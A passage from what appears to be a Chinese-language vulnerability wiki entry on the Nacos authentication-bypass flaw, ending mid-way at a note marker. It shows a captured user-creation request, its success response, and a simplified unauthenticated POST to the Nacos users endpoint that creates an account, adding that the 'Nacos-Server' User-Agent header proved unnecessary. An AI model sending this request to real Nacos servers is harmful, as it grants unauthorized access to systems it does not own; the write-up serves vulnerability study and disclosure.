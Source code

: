   

这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

  

我们尝试创建用户并抓包

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-8.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

返回下列创建成功

  

\`\`\`

{"code":200,"message":"create user ok!","data":null}

\`\`\`

  

同样的我们简化请求

  

\`\`\`

POST /nacos/v1/auth/users?

username=peiqi&password=peiqi

\`\`\`

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-9.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-10.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

看到有文章说要加上\*\*User-Agent请求头\*\*

  

\`\`\`

User-Agent: Nacos-Server

\`\`\`

  

但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

  

\> \[!NOTE\]
